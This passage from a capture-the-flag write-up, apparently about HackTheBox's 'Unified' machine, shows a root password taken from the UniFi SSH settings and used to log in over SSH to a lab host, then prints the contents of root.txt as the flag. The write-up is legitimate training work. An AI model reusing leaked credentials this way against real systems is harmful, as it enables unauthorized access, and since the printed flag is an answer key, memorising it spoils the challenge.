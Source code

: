 UniFi has an ssh implementation we can make use of:

![](./attachments/Pasted%20image%2020220415132938.png)

The root password for the SSH login is visible in clear text.

User:pass `root:NotACrackablePassword4U2022`

Let's connect.

```console
┌──(kali㉿kali)-[~]
└─$ ssh root@10.129.28.168       
The authenticity of host '10.129.28.168 (10.129.28.168)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.28.168' (ED25519) to the list of known hosts.
root@10.129.28.168's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

root@unified:~# ls
root.txt
root@unified:~# cat root.txt
e50bc93c75b634e4b272d2f771c33681
```

We got root!

**Flag:** `e50bc93c75b634e4b272d2f771c33681`

---
**Tags:** [[HackTheBox]]